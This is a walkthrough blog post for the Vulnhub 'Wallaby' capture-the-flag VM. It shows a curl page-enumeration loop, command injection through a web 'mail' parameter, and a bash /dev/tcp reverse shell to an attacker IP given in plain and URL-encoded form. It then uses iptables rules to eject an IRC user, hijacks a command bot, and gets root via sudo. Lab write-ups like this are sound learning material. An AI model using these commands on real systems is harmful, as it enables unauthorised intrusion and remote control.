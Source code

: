 +++
menu = "main"
Description = "A walkthrough of the Wallaby VM from Vulnhub"
date = "2016-12-30T19:16:02-04:00"
title = "B2R: Wallaby Walkthrough"
Categories = [ "Boot2Root" ]
+++

## Executive Summary

This machine had an unlisted but open webapp path that allowed for remote command execution. After
establishing a reverse shell as the limited user `www-data`, privilege checks showed the user was allowed to
modify firewall rules. There was also an IRC server that contained a bot that allowed command execution
through the use of the `.run` command. The command would only obey the user `waldo` so modification of the
firewall allows an attacker to kick and assume the `waldo` identity. Now the `.run` command could be run and
a reverse shell with the user `wallaby` could be established. `wallaby` had password-less sudo access, so
elevating to the root user was trivial.


## Tools Used

* nmap - service enumeration
* uniscan - webapp scanner


## Proof of Concept

Upon enumerating available services with nmap, I discovered two ports, 22 and 80. I began to scan with
`uniscan` but this failed and caused the VM to move the web application to a different port. It appeared that
automated tools were going to make this challenge harder, not easier.

After another scan, we find our new port:

![](https://i.imgur.com/U7eKOCh.png)
![](https://i.imgur.com/xuPADKd.png)


Various sorts of manual testing gave us different messages:

![](https://i.imgur.com/WwMxNnj.png)
![](https://i.imgur.com/IS2BlBh.png)

At this point, I decided to automate my enumeration of pages with a custom script.

~~~bash.prettyprint
for word in $(cat /usr/share/dirb/wordlists/common.txt); do
    
    # find pages whose last line does NOT contain the phrase 'what are you trying' ( a 404, essentially )
    curl -q "vm:60080/?page=$word" 2>/dev/null | tail -1 | grep -v 'what are you trying'

    if [[ $? -eq 0 ]]; then
        #if the last command command completed succesfully, print the word we foun
        echo $word
    fi
done | grep -v "/" # don't print results with slashes in them, they're false positives
~~~

This output yielded the pages.

~~~bash.prettyprint
contact
mailer
home
index
blacklist
name
~~~

The most interesting page here was `mailer`:

![](https://i.imgur.com/TNJEtuI.png)

I attempted to see if the `mail` query parameter actually passed through as a system command. It did:

![](https://i.imgur.com/9Yu6Zky.png)

From here we can set up a listener and run a reverse shell by feeding in url encoded commands to the `mail`
query parameter:

~~~bash.prettyprint
bash -c "bash -i >& /dev/tcp/192.168.1.177/443 0>&1"

# becomes

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.177%2F443%200%3E%261%22
~~~

![](https://i.imgur.com/tWhvBSP.png)

Enumerating this user's privileges and networking, we determine that we have control of firewall rules,
there's a rule blocking incoming requests to port 6667, and that there's an IRC server running locally.

![](https://i.imgur.com/1slTkmg.png)

![](https://i.imgur.com/uxK21ov.png)


We can clear the firewall rules with `sudo iptables -F` and connect to the IRC server from the attacking
machine.

![](https://i.imgur.com/b0NDIKS.png) 

![](https://i.imgur.com/IoX9DnK.png) 

If we try to run the `.run` command, `wallabysbot` refuses.

![](https://i.imgur.com/R5Vwo3f.png) 

The code for the and configs for the bot are located in `/home/wallaby/.sopel` and it indicates that we need
to assume the nickname `waldo` in order for us to be able to use this command. We can't do that while waldo
is still logged in so we boot them off with the use of our firewall.

~~~bash.prettyprint
sudo iptables -I OUTPUT -p tcp -m owner --uid-owner 1000 --dport 6667 -s 127.0.0.1 -j DROP
~~~

![](https://i.imgur.com/KCH7TX6.png)

In a while, after a timeout, only `waldo` should be ejected from the room, leaving the ability to steal his
nick and command the bot.

![](https://i.imgur.com/1TnwYcT.png)


With a reverse shell established, we can see that the wallaby user has full, passwordless `sudo` access. From
here, it's just one command to `root`

![](https://i.imgur.com/Ds0KVYg.png)


Thanks to Waldo and Vulnhub for this frustrating but entertaining VM!



## Additional Information

* User `waldo` is running irssi within a tmux session. The socket is located in `/tmp/tmux-1000`
* There exists an irssi DoS vulnerability that could have been used to boot the `waldo` user to assume
  control of the bot.
* The `.py` modules (which runs python commands), at the time of this writing makes an external call to an
  out-of-scope API. It does not run the python command on the target machine. 
* There are at least 3 ways to get a limited shell and at least 2 to get root.

